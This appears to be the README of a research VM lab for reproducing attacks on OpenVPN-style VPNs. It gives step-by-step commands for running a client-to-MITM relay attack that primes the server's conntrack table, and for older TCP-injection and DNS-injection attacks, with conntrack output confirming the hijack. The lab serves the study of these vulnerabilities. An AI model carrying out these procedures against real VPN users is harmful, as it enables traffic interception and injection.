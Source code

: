 # virt-lab

VM lab environment for perform attacks. This implementation is a minimal deployment for
doing testing the attacks on a laptop with 16 GB RAM and 4 processors. The full 7 VM network
can be deployed by using the Vagrant.bignet file. Some modifications may be required for
that to work as I have not tested in some time.

### Requirements

* Virtualbox (5.2 or older)
* Vagrant 2.2.x

### Setup base virtual network

1. Start all VMs: `./boot_all.sh`
2. Go do something else cause its gonna take a while..
3. (Optional) ssh to some machine: 
  * ssh by port: `ssh -l vagrant localhost -p 22111`  
  * ssh with vagrant: `vagrant ssh <VM NAME>` (ex. `vagrant ssh attacker`)
![picture](diagrams/c2mitm-topology.jpg)

### Full c2mitm attack

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/full-relay enp0s8 192.168.169.254 192.168.1.2 192.168.2.2 1194# Possibly run in tmux session` # Start the relay

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 

TODO: Add some more info to describe how to verify the attack work (it will be similiar to description for the simplified attack below).


### Simplified c2mitm attack (don't bother spamming the ephemeral port range of the victim just yet)

#### Force victim's source port to be 31338 

1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh victim` 
2. `vagrant@victim:~$ sudo /vagrant/overwrite-sport-on-victim.sh`

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/simple-relay# Possibly run in tmux session` # Start the relay

5. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/prime-vpn-conntrack-table.sh 1194 31338 192.168.1.2` 

NOTE: The packets from (5.) only hang around in the VPN server's conntrack table for 30 seconds in the case of a UDP tunnel, so it
is important that the following step be performed within that time.

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 


Now, when you log into the VPN server, and run:

```bash
$ sudo conntrack -L | grep 1194
vagrant@vpnserver:/var/log$ sudo conntrack -L | grep 1194
udp      17 178 src=10.8.0.6 dst=192.168.1.2 sport=1194 dport=31338 src=192.168.1.2 dst=192.168.2.2 sport=31338 dport=1194 [ASSURED] mark=0 use=1
udp      17 177 src=192.168.169.254 dst=192.168.2.2 sport=31338 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=31338 [ASSURED] mark=0 use=1
udp      17 178 src=192.168.169.254 dst=192.168.2.2 sport=54075 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=54075 [ASSURED] mark=0 use=1

```

You should see that the victim's NAT IP (192.168.1.2) is not the src in the
entry with `sport=31338` but instead the attacker's IP is. That is because the
attacker is acting as a NAT for the client. If you log into the attacker and
take pcaps, you will see packets from the client to the attacker's `tun0`
address (likely, 10.8.0.6) followed by packets from the attacker's public IP
address (192.168.169.254) to the VPN server (which are packets the relay is
NAT).


# DEPRECATED/NEEDS UPDATE

## Client-Side Attack

#### Configure client side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_cliside_env.sh`

#### Test client side attack 


1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to web server node (base host): `cd virt-lab/edgers/web-server && vagrant ssh`
4. Open another shell to ssh to gateway attacker node (base host): `cd virt-lab/routers/gateway && vagrant ssh`
5. On web-server vm, open a netcat connection for the client to connect to: `nc -l 8080`
6. On the client vm, connect to the web server: `nc 192.168.3.2 8080 -p 40404`
7. On the attacker vm, navigate to the attack folder: `cd ChangeMe/client-side-attack`
8. Rebuild all the attack scripts (attacker): `./rebuild_all.sh`
9. Navigate to full attack folder (attacker): `cd complete_attack`
10. Start full attack script (attacker): `./attack.sh`
11. Wait for script to infer private tun IP, port in use, exact sequence number, and in-window ack number needed to inject TCP

## Server-Side Attack
 
#### Configure server side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_servside_env.sh.sh`


#### Test server side DNS attack

1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to router1 attacker node (base host): `cd virt-lab/routers/router1 && vagrant ssh`
4. On the attack router vm navigate to dns inject folder: `cd ChangeMe/server-side-attack/dns-sside/full_scan/`
5. Compile full attack script (attacker): `make` 
6. Issue DNS lookup from client vm: `nslookup yo.com 192.168.3.2`
7. Start inject script from attacker node: `./inject_test.sh` 

## Teardown

1. Stop all the VMs: `./stop_all.sh`
2. Destroii all VMs in our path: `./destroy_all.sh`


